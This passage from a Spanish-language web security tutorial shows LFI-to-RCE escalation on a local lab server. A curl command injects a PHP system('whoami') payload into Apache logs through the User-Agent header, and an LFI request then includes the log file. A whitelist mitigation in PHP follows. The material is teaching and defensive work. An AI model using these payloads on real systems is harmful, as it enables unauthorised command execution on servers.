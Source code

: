 Enviar payload en User-Agent (inyectar en logs de Apache). Ejecutamos en un terminal de comandos

~~~
curl -A "<?php system('whoami'); ?>" http://localhost
~~~
Esto intenta ejecutar el código php para solicitar el usuario que está ejecutando el servidor de localhost. El resultado de la información "whoami" irá a los logs de apache2.

Hacemos un LFI para  Incluir el log, y así poder recuperar el resultado del comando ejecutado:

![](images/lfi7.png)

~~~
http://localhost/lfi.php?file=/var/log/apache2/access.log
~~~

o si lo tenemos en la pila LAMP de docker en:

~~~
http://localhost/lfi.php?file=/var/log/apache2/other_vhosts_access.log
~~~

Si se muestra el resultado de **whoami**, LFI ha escalado a la ejecución de comandos (RCE).

### Mitigación de LFI
---

**Usar una Lista Blanca de Archivos Permitidos**
---
Una primera mitigación que podemos realizar es una lista blanca, de manera que sólo podamos incluir los archivos de una lista. En nuestro caso: file1.php y file2.php

~~~
<?php
// Establecemos una lista de archivos que se pueden incluir
$whitelist = ["file1.php", "file2.php"];
if (isset($_GET['file'])) {
        $file = $_GET['file'];
        if (!in_array($file, $whitelist)) {
                die("Acceso denegado.");
        }
        echo file_get_contents($file);
}

?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Ejemplo de Enlaces</title>
</head>
<body>
    <h1>Elige un archivo</h1>
    <ul>
        <li><a href="?file=file1.php">Archivo 1</a></li>
        <li><a href="?file=file2.php">Archivo 2</a></li>
    </ul>
</body>
</html>
~~~

